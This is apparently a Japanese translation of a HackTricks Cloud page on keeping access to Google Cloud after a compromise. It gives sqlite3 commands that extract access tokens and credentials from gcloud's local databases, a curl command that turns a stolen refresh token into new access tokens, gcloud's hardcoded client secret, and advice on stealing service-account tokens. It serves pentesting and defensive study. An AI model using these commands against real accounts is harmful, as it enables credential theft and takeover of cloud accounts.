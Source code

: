 # GCP - 非サービス永続性

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** をフォローする。**
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出してください。

</details>

これらは、何らかの方法で GCP 資格情報または GCP 環境で実行されているマシンを侵害した場合に便利なテクニックです。

## トークンハイジャッキング

### 認証済みユーザートークン

ユーザーの **現在のトークン** を取得するには、次のコマンドを実行できます:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

このページで、**gcloudを使用してこのトークンを直接使用する方法**を確認してください：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**新しいアクセストークンを生成する**詳細を取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**`$HOME/.config/gcloud/application_default_credentials.json`**と**`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**にリフレッシュトークンを見つけることも可能です。

**リフレッシュトークン**、クライアントID、クライアントシークレットを使用して新しいリフレッシュされたアクセストークンを取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効期限は、**管理者** > **セキュリティ** > **Google Cloud セッション制御** で管理でき、デフォルトでは16時間に設定されていますが、期限切れにならないように設定することもできます：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 認証フロー

`gcloud auth login` のようなものを使用する場合の認証フローは、ブラウザでプロンプトが開き、すべてのスコープを承認した後、ブラウザは次のようなリクエストをツールによって開かれた http ポートに送信します：
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
その後、gcloudは、いくつかのハードコードされた`client_id` (`32555940559.apps.googleusercontent.com`) と **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) を使用して、**最終的なリフレッシュトークンデータ** を取得します。

{% hint style="danger" %}
localhostとの通信がHTTPであることに注意してください。したがって、データを傍受してリフレッシュトークンを取得することが可能ですが、このデータは1回だけ有効です。そのため、これを行うのは無駄であり、代わりにファイルからリフレッシュトークンを読む方が簡単です。
{% endhint %}

### OAuthスコープ

次のコマンドを実行してすべてのOAuthスコープを取得します：

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

### サービスアカウント

認証済みユーザーと同様に、サービスアカウントの**秘密鍵ファイルを侵害**すると、**必要な時間だけアクセス**できます。\
ただし、サービスアカウントの**OAuthトークン**を盗むとさらに興味深いです。デフォルトではこれらのトークンは通常1時間だけ有効ですが、**被害者が秘密APIキーを削除しても、OAuthトークンは有効のままになり、有効期限が切れるまで**です。

### メタデータ

明らかに、GCP環境で実行されているマシン内にいる限り、メタデータエンドポイントに連絡してそのマシンにアタッチされたサービスアカウントに**アクセスできます**（このエンドポイントでアクセスできるOAuthトークンは通常、スコープによって制限されています）。

### 対処方法

これらのテクニックに対するいくつかの対処方法は、[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)で説明されています。

## 参考文献

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>で**ゼロからヒーローまでAWSハッキングを学ぶ**</summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする。
* **ハッキングトリックを共有するために、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。

</details>
